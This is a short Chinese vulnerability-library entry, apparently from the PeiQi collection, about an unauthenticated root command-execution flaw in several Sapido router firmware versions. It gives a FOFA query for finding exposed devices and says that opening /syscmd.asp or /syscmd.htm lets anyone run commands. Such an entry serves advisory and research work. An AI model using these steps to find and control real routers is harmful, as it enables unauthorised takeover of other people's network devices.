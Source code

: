 ```yaml
---
title: Sapido多款路由器命令执行漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - Sapido
---
```


# Sapido多款路由器命令执行漏洞

## 漏洞描述

Sapido多款路由器在未授权的情况下，导致任意访问者可以以Root权限执行命令

## 漏洞影响

> [!NOTE]
>
> BR270n-v2.1.03
>
> BRC76n-v2.1.03
>
> GR297-v2.1.3
>
> RB1732-v2.0.43

## FOFA

> [!NOTE]
>
> app="Sapido-路由器"

## 漏洞复现

固件中存在一个asp文件为 **syscmd.asp** 存在命令执行

![](/img/20210924015231234217.png)

访问目标:

```
http://xxx.xxx.xxx.xxx/syscmd.asp
http://xxx.xxx.xxx.xxx/syscmd.htm
```

![](/img/20210924015231590350.png)

直接输入就可以命令执行了

